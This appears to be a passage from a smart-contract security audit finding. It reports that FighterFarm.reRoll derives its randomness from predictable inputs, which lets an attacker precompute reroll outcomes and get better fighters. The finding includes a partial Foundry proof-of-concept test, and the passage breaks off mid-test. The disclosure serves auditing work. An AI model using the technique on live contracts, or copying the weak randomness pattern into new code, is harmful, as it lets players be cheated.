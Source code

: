 Instead, it uses expression `uint256(keccak256(abi.encode(msg.sender, tokenId, numRerolls[tokenId])))` which operates with contract's storage and incoming executor address and tokenId which are not random. So any user can execute this operation with same data by executing `FighterFarm.reRoll` function and get the same result.

## Impact

Attacker can get better `FighterOps.Fighter` by pre-computing result of `FighterFarm.reRoll`, execute function only when computing return fighter that have necessary stats. Thus attacker can get better fighters than other users.

## Proof of Concept

1. For testing purposes add function `getFightersLength` to `FighterFarm` contract to get length of the array of fighters.

```solidity
    /// @notice Get length of the array of fighters.
    /// @return Length of the array of fighters.
    function getFightersLength() public view returns (uint256) {
        return fighters.length;
    }
```

2. Add this test to `tests/FighterFarm.t.sol` and run with `forge test --match-contract FighterFarm --match-test testReRollCreateNotRandomFighter`

```solidity
    function _createFighterBase(
        uint256 dna,
        uint8 fighterType
    ) private view returns (uint256, uint256, uint256) {
        // Get number of elements per generation
        uint8 numElementsPerGeneration = _fighterFarmContract.numElements(
            fighterType
        );

        uint256 element = dna % numElementsPerGeneration;
        uint256 weight = (dna % 31) + 65;
        uint256 newDna = fighterType == 0 ? dna : uint256(fighterType);
        return (element, weight, newDna);
    }

    function testReRollCreateNotRandomFighter() public {
        _neuronContract.addSpender(address(_fighterFarmContract));
        _fundUserWith4kNeuronByTreasury(_ownerAddress);

        // Get length of fighters array
        uint256 tokenId = _fighterFarmContract.getFightersLength();
        uint8 fighterType = 0;

        // Mint new fighter
        _mintFromMergingPool(_ownerAddress);

        // Minted fighter data
        (
            ,
            ,
            ,
            ,
            ,
            ,
            ,
            uint8 mintedFighterIconsType,
            bool mintedFighterDendroidBool
```